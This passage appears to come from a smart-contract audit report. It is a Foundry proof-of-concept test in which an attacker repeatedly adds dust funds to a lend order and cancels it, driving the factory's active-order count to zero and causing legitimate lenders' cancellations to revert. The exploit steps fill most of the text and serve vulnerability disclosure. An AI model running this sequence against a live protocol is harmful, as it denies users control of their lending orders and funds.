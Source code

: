 ```solidity
            ratio,
            address(0x0),
            5e18
        );
        vm.stopPrank();
        // Get active lend orders
        uint256 totalOrders =  DLOFactoryContract.activeOrdersCount();

        assertEq(totalOrders, 3); // This will be 3 due to a lend order created in the setup function

        // Malicous lender (second lender) will create a lend order
        vm.startPrank(secondLender);
        IERC20(AERO).approve(address(DLOFactoryContract), 1000e18);
        
        address secondLendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            8640000,
            86400,
            acceptedPrinciples,
            AERO,
            oraclesPrinciples,
            ratio,
            address(0x0),
            5e18
        );
        // Now cancel the lend order
        DLOImplementation lendOrder = DLOImplementation(secondLendOrderAddress);
        IERC20(AERO).approve(address(lendOrder), 1000e18);
        lendOrder.cancelOffer();

        assertEq(DLOFactoryContract.activeOrdersCount(), 3);
        // Attacker adds dust funds and cancels the lend order
        lendOrder.addFunds(1);
        lendOrder.cancelOffer();

        assertEq(DLOFactoryContract.activeOrdersCount(), 2);
        lendOrder.addFunds(1);
        lendOrder.cancelOffer();

        assertEq(DLOFactoryContract.activeOrdersCount(), 1);
        lendOrder.addFunds(1);
        lendOrder.cancelOffer();

        assertEq(DLOFactoryContract.activeOrdersCount(), 0); // Literally Draining the Lend Orders of first 2, new orders will overwrite the old ones, the contract loses track of the old orders
        // Dis-allows legit users from cancelling orders as well
        vm.stopPrank(); 

        vm.startPrank(firstLender);
        // Try to cancel the lend order
        vm.expectRevert();
        DLOImplementation(firstLendOrderAddress).cancelOffer(); // [FAIL: panic: arithmetic underflow or overflow (0x11)]
        vm.stopPrank();
    
    }
```
It showcases the entire attack path mentioned.